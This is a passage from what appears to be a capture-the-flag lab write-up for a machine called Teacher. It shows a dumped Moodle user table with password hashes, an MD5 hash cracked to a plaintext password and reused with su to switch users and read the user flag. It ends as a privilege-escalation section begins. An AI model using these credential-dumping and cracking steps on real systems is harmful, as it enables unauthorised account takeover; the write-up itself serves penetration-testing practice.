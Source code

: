 ```
|    2 | manual |         1 |            0 |       0 |         0 |          1 | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |          | Admin      | User     | gio@gio.nl     |         0 |     |       |       |     |     |        |        |             |            |         |      |         | en   | gregorian    |       | 99       |  1530059097 | 1530059573 | 1530059097 |   1530059307 | 192.168.206.1 |        |       0 |     |                                                                           |                 1 |          1 |          0 |           1 |             1 |           0 |           0 |   1530059135 |            0 | NULL     |                  |                   |            |               |
|    3 | manual |         1 |            0 |       0 |         0 |          1 | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |          | Giovanni   | Chhatta  | Giio@gio.nl    |         0 |     |       |       |     |     |        |        |             |            |         |      |         | en   | gregorian    |       | 99       |  1530059681 | 1543718703 | 1543718276 |   1543718446 | 10.10.14.23   |        |       0 |     |                                                                           |                 1 |          1 |          0 |           2 |             1 |           0 |  1530059291 |   1530059291 |            0 |          |                  |                   |            |               |
| 1337 | manual |         0 |            0 |       0 |         0 |          0 | Giovannibak | 7a860966115182402ed06375cf0a22af                             |          |            |          |                |         0 |     |       |       |     |     |        |        |             |            |         |      |         | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |               |        |       0 |     | NULL                                                                      |                 1 |          1 |          0 |           2 |             1 |           0 |           0 |            0 |            0 | NULL     | NULL             | NULL              | NULL       | NULL          |
+------+--------+-----------+--------------+---------+-----------+------------+-------------+--------------------------------------------------------------+----------+------------+----------+----------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+---------------+--------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+
4 rows in set (0.00 sec)
```

The `Giovannibak` account hash the `7a860966115182402ed06375cf0a22af` MD5 hash, which is `expelled` if we look it up on [https://hashkiller.co.uk/md5-decrypter.aspx](https://hashkiller.co.uk/md5-decrypter.aspx).

```
www-data@teacher:/$ su -l giovanni
Password: expelled

giovanni@teacher:~$ cat user.txt
cat user.txt
fa9ae...
```

### Priv esc

The `/home/giovanni/work` directory contains a bunch of files, but the `backup_courses.tar.gz` timestamp keep changing every minute so we can assume the file is being created by a cron job running as root:
